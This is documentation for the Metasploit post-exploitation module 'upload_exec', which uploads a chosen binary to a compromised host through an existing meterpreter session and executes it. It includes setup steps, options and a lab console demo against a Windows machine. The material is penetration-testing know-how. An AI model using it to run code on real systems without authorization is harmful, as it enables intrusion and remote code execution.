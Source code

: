This module allows you to upload a binary file, and automatically execute it.

## Vulnerable Application

The following platforms are supported:


* Windows
* Linux
* OS X

## Verification Steps

1. Prepare for an executable file you wish to upload and execute.
2. Obtain a session from the target machine.
3. In msfconsole, do ```use post/multi/manage/upload_exec```
4. Set the ```LFILE``` option
5. Set the ```RFILE``` option
6. Set the ```SESSION``` option
7. ```run```

## Options

**LFILE**

The file on your machine that you want to upload to the target machine.

**RFILE**

The file path on the target machine. This defaults to LFILE.

## Demo

```
msf > use post/multi/manage/upload_exec
msf post(upload_exec) > show options

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LFILE                     yes       Local file to upload and execute
   RFILE                     no        Name of file on target (default is basename of LFILE)
   SESSION                   yes       The session to run this module on.

msf post(upload_exec) > set lfile /tmp/
lfile => /tmp/
msf post(upload_exec) > set lfile /tmp/msg.exe
lfile => /tmp/msg.exe
msf post(upload_exec) > set rfile C:\\Users\\sinn3r\\Desktop\\msg.exe
rfile => C:\Users\sinn3r\Desktop\msg.exe
msf post(upload_exec) > sessions

Active sessions
===============

  Id  Type                     Information                               Connection
  --  ----                     -----------                               ----------
  1   meterpreter x86/windows  WIN-6NH0Q8CJQVM\sinn3r @ WIN-6NH0Q8CJQVM  192.168.146.1:4444 -> 192.168.146.149:50168 (192.168.146.149)

msf post(upload_exec) > set session 1
session => 1

msf post(upload_exec) > run

[-] Post interrupted by the console user
[*] Post module execution completed
```
